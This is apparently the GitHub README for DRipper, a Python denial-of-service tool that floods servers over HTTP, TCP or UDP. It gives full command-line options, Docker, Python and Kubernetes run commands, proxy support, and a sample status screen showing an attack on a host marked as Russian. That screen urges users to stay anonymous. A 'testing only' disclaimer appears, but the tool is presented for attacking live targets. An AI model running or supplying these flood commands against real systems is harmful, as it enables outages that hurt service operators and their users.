 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or better
- Docker (optional) if you'd like to run script with docker

## How it looks

```bash
                                                                                
              ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗               
              ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║               
              ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝               
              ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗               
              ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║               
              ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝               
                                                          v2.0.0                
                                                                                
        It is the end user's responsibility to obey all applicable laws.        
        It is just like a server testing script and Your IP is visible.         
                                                                                
                      Please, make sure you are ANONYMOUS!                      
                                                                                
 ────────────────────────────────────────────────────────────────────────────── 
  Description                       Status                                      
 ────────────────────────────────────────────────────────────────────────────── 
  Start Time                        2022-02-24 04:00:00                         
  Your Public IP / Country          131.*.*.* / AR                              
  Host IP / Country                 192.168.0.1:80 / RU                        
  Load Method                       UDP                                         
 ────────────────────────────────────────────────────────────────────────────── 
  Threads                           50                                          
  vCPU Count                        16                                          
  Random Packet Length              True / Max length: 2048                     
 ────────────────────────────────────────────────────────────────────────────── 
  CloudFlare DNS Protection         Not protected                               
  Last Availability Check           04:10:52                                    
  Host Availability                 Accessible in 21 of 21 zones (100%)         
 ────────────────────────────────────────────────────────────────────────────── 
  UDP Statistic                                                                 
 ────────────────────────────────────────────────────────────────────────────── 
  Duration                          0:12:11                                     
  Sent Packets                      10,332,191                                     
  Sent Bytes                        2.22 GB                                   
  Connection Success                2                                           
  Connection Failed                 29                                          
  Connection Success Rate           6%                                          
 ────────────────────────────────────────────────────────────────────────────── 
                        Press CTRL+C to interrupt process.                       
                                                                                
                               #StandWithUkraine                               
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `python DRipper --help` to see detailed params description.

```bash

██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                           v2.0.0

It is the end user's responsibility to obey all applicable laws.
It is just like a server testing script and Your IP is visible.

Please, make sure you are ANONYMOUS!

Usage: python DRipper.py [options] arg

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT (default: 80)
                        Port number.
  -t THREADS, --threads=THREADS (default: 100)
                        Threads count.
  -r RANDOM_PACKET_LEN, --random_len=RANDOM_PACKET_LEN (default: 1)
                        Send random packets with random length .
  -l MAX_RANDOM_PACKET_LEN, --max_random_packet_len=MAX_RANDOM_PACKET_LEN
                        Max random packets length (default: 48 for udp, 1000 for tcp, 0 for http).
  -m ATTACK_METHOD, --method=ATTACK_METHOD (default: udp)
                        Attack method: udp, tcp, http.
  -s HOST, --server=HOST
                        Attack to server IP.
  -y FILENAME, --proxy_list=FILENAME
                        File with sock5 proxies in ip:port:username:password or ip:port line format.
  -c STATE, --health_check=STATE (default: 1)
                        Controls health check availability. Turn on: 1, turn off: 0.
  -e HTTP_METHOD, --http_method=HTTP_METHOD (default: GET)
  -a HTTP_PATH, --http_path=HTTP_PATH (default: /)
  -o SOCKET_TIMEOUT, --socket_timeout=SOCKET_TIMEOUT (default: 10 without proxy, 20 with proxy)
                        Timeout in seconds for socket connection is seconds.

Example: python DRipper.py -s 192.168.0.1 -p 80 -t 100
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m http

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m tcp -l 2048

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m upd -l 2048
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install python dependencies:
pip install -r requirements.txt

# Run script
python -u DRipper.py -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp
# OR
python3 -u DRipper.py -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install pytest
```

#### Run
```bash
pytest
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml

[docker pulls link]:   https://hub.docker.com/r/alexmon1989/dripper
[docker pulls badge]:  https://img.shields.io/docker/pulls/alexmon1989/dripper
[dockerhub link]:      https://hub.docker.com/r/alexmon1989/dripper/tags
[dockerhub badge]:     https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub

[kube-dripper-link]:   https://github.com/denismakogon/kube-dripper
[kube-dripper-readme]: https://github.com/denismakogon/kube-dripper/blob/main/README.md
